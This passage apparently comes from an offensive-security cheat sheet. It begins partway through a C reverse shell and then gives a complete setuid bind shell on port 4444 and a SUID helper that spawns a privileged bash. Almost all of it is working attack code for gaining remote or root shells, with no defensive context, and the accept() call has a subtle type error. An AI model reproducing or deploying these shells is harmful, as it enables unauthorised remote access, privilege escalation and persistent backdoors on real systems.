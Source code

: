 ```c
    connect(sockfd, (struct sockaddr *)&server, sizeof(server));
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    setuid(0);
    execve("/bin/sh", NULL, NULL);

    return 0;
}
```

#### Setuid Bind Shell

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
    int sockfd, clientfd;
    struct sockaddr_in server, client;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&server, sizeof(server));
    listen(sockfd, 0);

    clientfd = accept(sockfd, (struct sockaddr *)&client, sizeof(client));
    dup2(clientfd, 0);
    dup2(clientfd, 1);
    dup2(clientfd, 2);

    setuid(0);
    execve("/bin/sh", NULL, NULL);

    return 0;
}
```

#### SUID Binary

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("/bin/bash -p");
    return 0;
}
```

